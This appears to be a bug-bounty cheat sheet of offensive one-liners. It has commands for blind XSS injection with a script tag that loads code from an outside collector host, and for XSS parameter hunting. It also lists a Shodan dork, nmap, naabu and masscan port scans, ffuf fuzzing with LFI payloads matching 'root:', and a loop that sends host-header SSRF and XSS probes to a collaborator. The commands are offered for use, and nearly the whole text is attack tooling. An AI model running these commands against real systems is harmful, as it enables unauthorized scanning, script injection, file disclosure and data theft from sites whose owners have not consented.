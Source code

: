 #(For finding Blind xss )
-----
	subfinder -d example.com | gau | grep '&' | bxss -appendMode -payload ''><script src=https://xss.report/c/coffinxp></script>' -parameters

#(Content-type Filter - part 1 )
------
	echo domain | gau | grep -Eo '(\/[^\/]+)\.(php|asp|aspx|jsp|jsf|cfm|pl|perl|cgi|htm|html)$' | httpx -status-code -mc 200 -content-type | grep -E 'text/html|application/xhtml+xml'

#(Shodan dork )
-----
	Ssl.cert.subject.CN:'example.com' 200

#(XSS method - part 1 )
-----
	echo https://example.com/ | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt

#(XSS method - part 2 )
-----
	cat xss_output.txt | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > final.txt

#(Naabu scan )
-----
	naabu -list ip.txt -c 50 -nmap-cli 'nmap -sV -SC' -o naabu-full.txt

#(Nmap scan )
-----
	nmap -p- --min-rate 1000 -T4 -A target.com -oA fullscan

#(Masscan)
-----
	masscan -p0-65535 target.com --rate 100000 -oG masscan-results.txt

#(FFUF request file method - part 1 )
------
	ffuf -request lfi -request-proto https -w /root/wordlists/offensive\ payloads/LFI\ payload.txt -c -mr 'root:'

#(FFUF request file method - part 2 )
-----
	ffuf -request xss -request-proto https -w /root/wordlists/xss-payloads.txt -c -mr '<script>alert('XSS')</script>'

#(XSS and SSRF testing with headers )
-------
	cat domains.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotor'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotor'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotor'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e '\e[1;32m$url\e[0m''\n''Method[1] X-Forwarded-For: xss+ssrf => $xss1''\n''Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2''\n''Method[3] Host: xss+ssrf ==> $xss3''\n''Method[4] GET http://xss.yourburpcollabrotor HTTP/1.1 ''\n';done
